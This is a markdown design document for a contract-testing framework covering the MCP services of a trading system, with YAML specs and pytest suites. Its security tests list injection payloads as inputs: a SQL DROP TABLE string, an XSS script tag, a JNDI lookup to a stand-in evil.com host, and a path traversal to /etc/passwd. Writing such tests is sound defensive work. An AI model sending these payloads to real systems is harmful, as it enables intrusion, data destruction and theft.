

# MCP Contract Validation and Testing Framework

## Overview

This document defines a comprehensive testing framework for validating MCP contracts across all layers of the Neural Trader system. It ensures contract compliance, performance requirements, and system reliability through automated testing strategies.

## Testing Architecture



## Contract Testing Framework

### Test Specification Format

```yaml
# contract-test-spec.yml
contract_test:
  name: "data_ingestion_stream_subscription"
  version: "v1.0.0"
  provider: "data_ingestion_service"
  consumer: "analysis_service"
  
  scenarios:
    - name: "successful_stream_subscription"
      description: "Subscribe to real-time data stream successfully"
      
      given:
        state: "provider_is_healthy"
        data:
          available_symbols: ["AAPL", "GOOGL", "MSFT"]
          provider_status: "online"
      
      when:
        request:
          tool: "data_ingestion_stream_subscribe"
          version: "v1.0.0"
          params:
            provider: "polygon"
            symbols: ["AAPL"]
            data_types: ["quotes", "trades"]
            rate_limit:
              requests_per_second: 10
              burst_capacity: 20
      
      then:
        response:
          status: "success"
          schema_validation: true
          required_fields:
            - subscription_id
            - stream_endpoint
            - status
          field_constraints:
            subscription_id:
              type: "string"
              pattern: "^sub_[a-zA-Z0-9]+$"
            stream_endpoint:
              type: "string"
              format: "uri"
            status:
              type: "string"
              enum: ["active", "pending"]
        
        performance:
          max_response_time: "500ms"
          max_memory_usage: "50MB"
        
        side_effects:
          events_published:
            - event_type: "data.ingestion.stream.started"
              required_fields: ["subscription_id", "provider", "symbol"]
          
          resources_created:
            - type: "stream_resource"
              uri_pattern: "ingestion://stream/{subscription_id}"

    - name: "invalid_provider_error"
      description: "Handle invalid provider gracefully"
      
      when:
        request:
          tool: "data_ingestion_stream_subscribe"
          params:
            provider: "invalid_provider"
            symbols: ["AAPL"]
            data_types: ["quotes"]
      
      then:
        response:
          status: "error"
          error:
            code: "INVALID_PROVIDER"
            category: "CLIENT_ERROR"
            message: "Provider 'invalid_provider' is not supported"
            retry_after: null
        
        performance:
          max_response_time: "100ms"
```

### Contract Test Implementation

```python
# contract_test_framework.py
import pytest
import json
import time
from typing import Dict, Any, List
from dataclasses import dataclass
from jsonschema import validate, ValidationError

@dataclass
class TestScenario:
    name: str
    description: str
    given: Dict[str, Any]
    when: Dict[str, Any]
    then: Dict[str, Any]

class ContractTestFramework:
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.mock_generator = MockGenerator()
        self.validation_engine = ValidationEngine()
        
    def load_test_specifications(self, spec_file: str) -> List[TestScenario]:
        """Load test scenarios from YAML specification"""
        with open(spec_file, 'r') as f:
            spec = yaml.safe_load(f)
        
        scenarios = []
        for scenario_data in spec['contract_test']['scenarios']:
            scenarios.append(TestScenario(**scenario_data))
        
        return scenarios
    
    def execute_contract_test(self, scenario: TestScenario) -> TestResult:
        """Execute a single contract test scenario"""
        # Setup test environment
        self._setup_test_state(scenario.given)
        
        # Execute the test
        start_time = time.time()
        response = self._execute_request(scenario.when['request'])
        execution_time = time.time() - start_time
        
        # Validate response
        validation_results = self._validate_response(
            response, 
            scenario.then, 
            execution_time
        )
        
        # Check side effects
        side_effect_results = self._validate_side_effects(scenario.then)
        
        return TestResult(
            scenario_name=scenario.name,
            passed=all([validation_results.passed, side_effect_results.passed]),
            execution_time=execution_time,
            validation_results=validation_results,
            side_effect_results=side_effect_results
        )

class ValidationEngine:
    def validate_schema(self, data: Dict[str, Any], schema: Dict[str, Any]) -> bool:
        """Validate data against JSON schema"""
        try:
            validate(instance=data, schema=schema)
            return True
        except ValidationError:
            return False
    
    def validate_performance(self, execution_time: float, constraints: Dict[str, Any]) -> bool:
        """Validate performance constraints"""
        max_time = self._parse_duration(constraints.get('max_response_time', '1s'))
        return execution_time <= max_time
    
    def validate_field_constraints(self, data: Dict[str, Any], constraints: Dict[str, Any]) -> List[str]:
        """Validate field-level constraints"""
        errors = []
        for field, constraint in constraints.items():
            if field not in data:
                errors.append(f"Required field '{field}' missing")
                continue
            
            value = data[field]
            if not self._validate_field_constraint(value, constraint):
                errors.append(f"Field '{field}' violates constraint: {constraint}")
        
        return errors
```

## Integration Testing

### Cross-Layer Integration Tests

```python
# integration_test_suite.py
class CrossLayerIntegrationTest:
    """Test data flow across multiple system layers"""
    
    @pytest.mark.integration
    async def test_data_ingestion_to_analysis_workflow(self):
        """Test complete workflow from data ingestion to trading decision"""
        
        # Step 1: Setup data ingestion
        subscription = await self.data_ingestion_client.subscribe_stream(
            provider="polygon",
            symbols=["AAPL"],
            data_types=["quotes"]
        )
        
        # Step 2: Wait for data to flow through system
        await self._wait_for_data_flow(subscription.subscription_id, timeout=30)
        
        # Step 3: Trigger pattern discovery
        patterns = await self.discovery_client.analyze_patterns(
            symbols=["AAPL"],
            timeframe="5m",
            pattern_types=["support_resistance"]
        )
        
        # Step 4: Request trading decision
        decision = await self.analysis_client.get_trading_decision(
            symbol="AAPL",
            market_context=self._get_current_market_context("AAPL"),
            portfolio_context=self._get_portfolio_context()
        )
        
        # Assertions
        assert subscription.status == "active"
        assert len(patterns.patterns) > 0
        assert decision.confidence > 0.5
        assert decision.decision in ["buy", "sell", "hold"]
        
        # Verify data consistency across layers
        ingestion_data = await self.storage_client.query_latest_data("AAPL")
        analysis_data = decision.market_context
        assert abs(ingestion_data.price - analysis_data.current_price) < 0.01

    @pytest.mark.integration
    async def test_error_propagation_across_layers(self):
        """Test error handling and propagation across layers"""
        
        # Simulate data provider failure
        await self.test_harness.simulate_provider_failure("polygon")
        
        # Verify error propagation
        with pytest.raises(StreamConnectionError):
            await self.data_ingestion_client.subscribe_stream(
                provider="polygon",
                symbols=["AAPL"]
            )
        
        # Verify fallback mechanisms
        fallback_subscription = await self.data_ingestion_client.subscribe_stream(
            provider="alpaca",  # Fallback provider
            symbols=["AAPL"]
        )
        
        assert fallback_subscription.status == "active"
        assert fallback_subscription.provider == "alpaca"

class EventDrivenIntegrationTest:
    """Test event-driven communication patterns"""
    
    @pytest.mark.integration
    async def test_event_workflow_ordering(self):
        """Test correct ordering of events across layers"""
        
        event_collector = EventCollector([
            "data.ingestion.stream.data_received",
            "discovery.patterns.pattern_discovered",
            "analysis.decisions.decision_made",
            "execution.orders.order_submitted"
        ])
        
        # Trigger workflow
        await self.data_ingestion_client.inject_test_data("AAPL", test_data)
        
        # Wait for event cascade
        events = await event_collector.collect_events(timeout=60)
        
        # Verify event ordering
        assert len(events) >= 4
        assert events[0].event_type == "data.ingestion.stream.data_received"
        assert events[-1].event_type == "execution.orders.order_submitted"
        
        # Verify event correlation
        correlation_id = events[0].correlation_id
        for event in events:
            assert event.correlation_id == correlation_id
```

## Performance Testing

### Load Testing

```python
# performance_test_suite.py
class PerformanceTestSuite:
    
    @pytest.mark.performance
    async def test_data_ingestion_throughput(self):
        """Test data ingestion layer throughput under load"""
        
        # Setup performance test
        test_config = {
            "concurrent_streams": 100,
            "messages_per_second": 1000,
            "test_duration": 300,  # 5 minutes
            "symbols": ["AAPL", "GOOGL", "MSFT", "TSLA"] * 25
        }
        
        # Start load generation
        load_generator = LoadGenerator(test_config)
        await load_generator.start()
        
        # Monitor metrics
        metrics_collector = MetricsCollector([
            "ingestion_throughput_per_second",
            "ingestion_latency_p95",
            "ingestion_error_rate",
            "memory_usage",
            "cpu_utilization"
        ])
        
        # Run test
        metrics = await metrics_collector.collect_for_duration(
            test_config["test_duration"]
        )
        
        # Performance assertions
        assert metrics.avg("ingestion_throughput_per_second") >= 900  # 90% of target
        assert metrics.p95("ingestion_latency_p95") <= 100  # milliseconds
        assert metrics.avg("ingestion_error_rate") <= 0.01  # 1% error rate
        assert metrics.max("memory_usage") <= 0.8  # 80% memory utilization
        assert metrics.max("cpu_utilization") <= 0.7  # 70% CPU utilization

    @pytest.mark.performance
    async def test_neural_prediction_latency(self):
        """Test neural network prediction latency requirements"""
        
        test_symbols = ["AAPL", "GOOGL", "MSFT", "TSLA", "NVDA"]
        prediction_latencies = []
        
        for symbol in test_symbols:
            for _ in range(100):  # 100 predictions per symbol
                start_time = time.time()
                
                prediction = await self.execution_client.request_prediction(
                    symbol=symbol,
                    horizon=5,
                    ensemble=True
                )
                
                latency = (time.time() - start_time) * 1000  # Convert to ms
                prediction_latencies.append(latency)
                
                # Validate prediction quality
                assert prediction.confidence > 0.0
                assert prediction.value is not None
        
        # Performance assertions
        p50_latency = np.percentile(prediction_latencies, 50)
        p95_latency = np.percentile(prediction_latencies, 95)
        p99_latency = np.percentile(prediction_latencies, 99)
        
        assert p50_latency <= 50   # 50ms p50
        assert p95_latency <= 200  # 200ms p95
        assert p99_latency <= 500  # 500ms p99

class StressTestSuite:
    """Stress testing for system breaking points"""
    
    @pytest.mark.stress
    async def test_memory_pressure_handling(self):
        """Test system behavior under memory pressure"""
        
        # Gradually increase memory pressure
        memory_pressure_levels = [0.5, 0.7, 0.85, 0.95]
        
        for pressure_level in memory_pressure_levels:
            # Apply memory pressure
            await self.test_harness.apply_memory_pressure(pressure_level)
            
            # Test system functionality
            try:
                decision = await self.analysis_client.get_trading_decision(
                    symbol="AAPL",
                    market_context=self._get_test_market_context()
                )
                
                # System should still function but possibly with degraded performance
                assert decision is not None
                
                if pressure_level >= 0.9:
                    # At high memory pressure, expect degraded mode
                    assert hasattr(decision, 'degraded_mode')
                    assert decision.degraded_mode is True
                    
            except ResourceExhaustionError:
                # Acceptable failure at extreme memory pressure
                if pressure_level < 0.9:
                    pytest.fail(f"Unexpected failure at {pressure_level} memory pressure")
```

## Compatibility Testing

### Version Compatibility Matrix

```python
# compatibility_test_suite.py
class CompatibilityTestSuite:
    
    @pytest.mark.parametrize("client_version,server_version", [
        ("v1.0.0", "v1.0.0"),
        ("v1.0.0", "v1.1.0"),
        ("v1.1.0", "v1.2.0"),
        ("v1.2.0", "v2.0.0"),  # Cross-major version
    ])
    async def test_version_compatibility(self, client_version, server_version):
        """Test compatibility between different client and server versions"""
        
        # Setup versioned clients and servers
        client = await self._create_versioned_client(client_version)
        server = await self._create_versioned_server(server_version)
        
        # Test basic functionality
        try:
            response = await client.query_market_data(
                symbol="AAPL",
                interval="1m",
                limit=100
            )
            
            # Validate response based on compatibility expectations
            compatibility = self._get_compatibility_expectation(
                client_version, server_version
            )
            
            if compatibility == "full":
                assert response.status == "success"
                assert len(response.data) == 100
                
            elif compatibility == "limited":
                assert response.status == "success"
                # Some features may be missing or adapted
                assert len(response.data) > 0
                
            elif compatibility == "adapter_required":
                # Should work through compatibility adapter
                assert response.status == "success"
                assert hasattr(response, 'adapter_used')
                assert response.adapter_used is True
                
            else:  # incompatible
                pytest.fail("Should not reach here - test should be skipped")
                
        except IncompatibleVersionError as e:
            compatibility = self._get_compatibility_expectation(
                client_version, server_version
            )
            if compatibility != "incompatible":
                pytest.fail(f"Unexpected incompatibility: {e}")

    @pytest.mark.compatibility
    async def test_schema_evolution_backward_compatibility(self):
        """Test that new schema versions maintain backward compatibility"""
        
        # Load old and new schemas
        old_schema = self._load_schema("data_ingestion_stream_event", "v1.0.0")
        new_schema = self._load_schema("data_ingestion_stream_event", "v1.2.0")
        
        # Generate test data for old schema
        old_data = self._generate_test_data(old_schema)
        
        # Validate that old data passes new schema validation
        validation_result = self.validation_engine.validate_schema(
            old_data, new_schema
        )
        
        assert validation_result.valid is True, \
            f"Schema evolution broke backward compatibility: {validation_result.errors}"
        
        # Test that new features are optional
        required_fields_old = set(old_schema.get('required', []))
        required_fields_new = set(new_schema.get('required', []))
        
        # New required fields should not be added in minor versions
        new_required_fields = required_fields_new - required_fields_old
        assert len(new_required_fields) == 0, \
            f"New required fields added in minor version: {new_required_fields}"
```

## Security Testing

### Contract Security Validation

```python
# security_test_suite.py
class SecurityTestSuite:
    
    @pytest.mark.security
    async def test_input_validation_injection_attacks(self):
        """Test protection against injection attacks in MCP tools"""
        
        injection_payloads = [
            "'; DROP TABLE market_data; --",
            "<script>alert('xss')</script>",
            "${jndi:ldap://evil.com/evil}",
            "../../etc/passwd",
            "{{7*7}}",  # Template injection
        ]
        
        for payload in injection_payloads:
            # Test SQL injection protection
            with pytest.raises(ValidationError):
                await self.storage_client.query_data(
                    query=f"SELECT * FROM market_data WHERE symbol = '{payload}'"
                )
            
            # Test XSS protection
            response = await self.analysis_client.get_trading_decision(
                symbol=payload,
                market_context=self._get_test_context()
            )
            
            # Response should be sanitized
            assert "<script>" not in str(response)
            assert "javascript:" not in str(response)
    
    @pytest.mark.security
    async def test_authentication_and_authorization(self):
        """Test authentication and authorization mechanisms"""
        
        # Test unauthenticated access
        unauthenticated_client = MCPClient(auth_token=None)
        
        with pytest.raises(AuthenticationError):
            await unauthenticated_client.query_market_data(symbol="AAPL")
        
        # Test invalid token
        invalid_token_client = MCPClient(auth_token="invalid_token")
        
        with pytest.raises(AuthenticationError):
            await invalid_token_client.query_market_data(symbol="AAPL")
        
        # Test expired token
        expired_token = self._generate_expired_token()
        expired_token_client = MCPClient(auth_token=expired_token)
        
        with pytest.raises(AuthenticationError):
            await expired_token_client.query_market_data(symbol="AAPL")
        
        # Test insufficient permissions
        read_only_client = MCPClient(auth_token=self._generate_read_only_token())
        
        with pytest.raises(AuthorizationError):
            await read_only_client.execute_trade_order(
                symbol="AAPL",
                side="buy",
                quantity=100
            )

    @pytest.mark.security
    async def test_rate_limiting_and_abuse_prevention(self):
        """Test rate limiting and abuse prevention mechanisms"""
        
        # Test rate limiting
        client = MCPClient(auth_token=self._generate_valid_token())
        
        # Make requests up to the limit
        for i in range(100):  # Assume limit is 100/minute
            response = await client.query_market_data(symbol="AAPL")
            assert response.status == "success"
        
        # Next request should be rate limited
        with pytest.raises(RateLimitExceededError):
            await client.query_market_data(symbol="AAPL")
        
        # Test abuse prevention
        suspicious_patterns = [
            # Rapid-fire requests from same IP
            lambda: [client.query_market_data(symbol="AAPL") for _ in range(1000)],
            # Large data requests
            lambda: client.query_market_data(symbol="AAPL", limit=1000000),
            # Unusual request patterns
            lambda: [client.query_market_data(symbol=f"INVALID_{i}") for i in range(100)]
        ]
        
        for pattern in suspicious_patterns:
            with pytest.raises((RateLimitExceededError, AbuseDetectedError)):
                await pattern()
```

## Mock and Test Data Generation

### Smart Mock Generation

```python
# mock_generator.py
class MockGenerator:
    def __init__(self, schema_registry: SchemaRegistry):
        self.schema_registry = schema_registry
        self.fake = Faker()
    
    def generate_realistic_market_data(self, symbol: str, count: int = 100) -> List[Dict]:
        """Generate realistic market data for testing"""
        base_price = self._get_realistic_base_price(symbol)
        data = []
        
        for i in range(count):
            timestamp = datetime.now() - timedelta(minutes=count - i)
            
            # Simulate realistic price movement
            price_change = random.gauss(0, base_price * 0.001)  # 0.1% volatility
            current_price = base_price + price_change
            
            data.append({
                "timestamp": timestamp.isoformat(),
                "symbol": symbol,
                "open": current_price,
                "high": current_price * (1 + abs(random.gauss(0, 0.005))),
                "low": current_price * (1 - abs(random.gauss(0, 0.005))),
                "close": current_price,
                "volume": random.randint(100000, 10000000)
            })
            
            base_price = current_price
        
        return data
    
    def generate_test_events(self, event_type: str, count: int = 10) -> List[Dict]:
        """Generate test events matching event contract schemas"""
        schema = self.schema_registry.get_event_schema(event_type)
        events = []
        
        for _ in range(count):
            event = self._generate_from_schema(schema)
            event["event_id"] = str(uuid.uuid4())
            event["timestamp"] = datetime.now().isoformat()
            event["correlation_id"] = str(uuid.uuid4())
            events.append(event)
        
        return events
    
    def create_service_mock(self, service_name: str, version: str) -> ServiceMock:
        """Create a mock service that responds according to contracts"""
        contract = self.schema_registry.get_service_contract(service_name, version)
        
        mock = ServiceMock(service_name, version)
        
        for tool in contract.tools:
            mock.add_tool_handler(
                tool.name,
                self._create_tool_handler(tool)
            )
        
        return mock
```

## Test Automation and CI/CD Integration

### Test Pipeline Configuration

```yaml
# .github/workflows/contract-testing.yml
name: MCP Contract Testing

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  contract-tests:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        test-suite: [unit, integration, performance, compatibility, security]
    
    steps:
      - uses: actions/checkout@v3
      
      - name: Setup Test Environment
        run: |
          docker-compose -f docker-compose.test.yml up -d
          ./scripts/wait-for-services.sh
      
      - name: Run Contract Tests
        run: |
          pytest tests/contract/${{ matrix.test-suite }} \
            --junitxml=test-results/${{ matrix.test-suite }}.xml \
            --cov=src \
            --cov-report=xml:coverage/${{ matrix.test-suite }}.xml
      
      - name: Upload Test Results
        if: always()
        uses: actions/upload-artifact@v3
        with:
          name: test-results-${{ matrix.test-suite }}
          path: test-results/
      
      - name: Publish Test Report
        if: always()
        uses: mikepenz/action-junit-report@v3
        with:
          report_paths: 'test-results/${{ matrix.test-suite }}.xml'

  compatibility-matrix:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        client-version: [v1.0.0, v1.1.0, v1.2.0]
        server-version: [v1.0.0, v1.1.0, v1.2.0, v2.0.0]
    
    steps:
      - name: Test Version Compatibility
        run: |
          ./scripts/test-version-compatibility.sh \
            ${{ matrix.client-version }} \
            ${{ matrix.server-version }}
```

### Continuous Contract Validation

```python
# contract_validator_daemon.py
class ContractValidatorDaemon:
    """Continuous validation of contracts in production"""
    
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.validator = ContractValidator()
        self.metrics_collector = MetricsCollector()
    
    async def start_monitoring(self):
        """Start continuous contract validation"""
        while True:
            try:
                # Validate contracts against live traffic
                validation_results = await self._validate_live_traffic()
                
                # Check for contract violations
                violations = [r for r in validation_results if not r.valid]
                
                if violations:
                    await self._handle_contract_violations(violations)
                
                # Update metrics
                await self._update_contract_metrics(validation_results)
                
                # Sleep before next validation cycle
                await asyncio.sleep(self.config['validation_interval'])
                
            except Exception as e:
                logger.error(f"Contract validation error: {e}")
                await asyncio.sleep(self.config['error_retry_delay'])
    
    async def _validate_live_traffic(self) -> List[ValidationResult]:
        """Sample and validate live traffic against contracts"""
        # Sample recent requests/responses
        traffic_sample = await self._sample_traffic()
        
        results = []
        for request, response in traffic_sample:
            # Validate against contract
            result = await self.validator.validate_interaction(
                request, response
            )
            results.append(result)
        
        return results
```

This comprehensive testing framework ensures:
1. **Contract Compliance**: Automated validation of all MCP contracts
2. **Performance Assurance**: Load and stress testing for performance requirements
3. **Compatibility Verification**: Cross-version compatibility testing
4. **Security Validation**: Protection against security vulnerabilities
5. **Continuous Monitoring**: Live contract validation in production environments